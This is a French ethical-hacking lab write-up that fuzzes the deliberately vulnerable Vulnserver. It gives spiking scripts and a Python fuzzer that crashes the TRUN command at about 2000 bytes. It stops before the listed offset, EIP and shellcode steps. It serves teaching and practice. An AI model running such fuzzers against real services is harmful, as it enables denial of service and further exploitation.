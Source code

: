 # TP Buffer Overflow Ethical Hacking

Dans ce TP, nous allons voir comment exploiter une faille de type buffer overflow pour prendre le contrôle d'un programme. Nous allons utiliser un programme vulnérable que nous allons exploiter pour exécuter du code arbitraire.

1. [Setup](#setup)
2. [Spiking (trouver la vulnérabilité)](#spiking)
3. [Fuzzing (créer un PoC)](#fuzzing)
4. [Chercher l'offset](#offset)
5. [Overwrite EIP](#eip)
6. [Trouver un espace mémoire exécutable](#memory)
7. [Shellcode](#shellcode)

## 1. Setup <a name="setup"></a>

On installe un certain nombre d'éléments sur la machine victime. 
Premièrement, Vulnserver, qu'on fera écouter sur le port 9999.  
[vulnserver](https://github.com/stephenbradshaw/vulnserver)  

Ensuite, on installe Immunity Debugger sur la machine attaquée.  
[Immunity Debugger](https://www.immunityinc.com/)

Cela fait, on démarre une kali sur laquelle tout se passera.

## 2. Spiking (trouver la vulnérabilité) <a name="spiking"></a>

On va commencer par chercher la vulnérablilité dans le programme. Pour cela, on va utiliser le script `generic_send_tcp` fourni dans kali.

```spk 
fichier stats.spk


s_readline();
s_string("STATS");
s_string_variable("0");
```

on envoie:

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```


[fuzzing avec STATS](assets/1.png)


On voit que le programme ne crash pas, essayons de modifier la commande.

```spk
fichier stats.spk

s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```

Parfait ! On s'aperçoit que le programme crashe. On a donc trouvé la vulnérabilité.

[Programme crash](assets/2.png)

## 3. Fuzzing (créer un PoC) <a name="fuzzing"></a>

On va donc exploiter la faille déterminée précédemment. On va commencer par créer un script qui nous permettra de déterminer à combien de bytes le fuzzing a crash.

```py

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100

	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()

```

On lance le script et on attend que le programme crash.  
Ici, on voit que le programme crash à 2000 bytes.  

[Programme crash à 2000 bytes](assets/3.png)

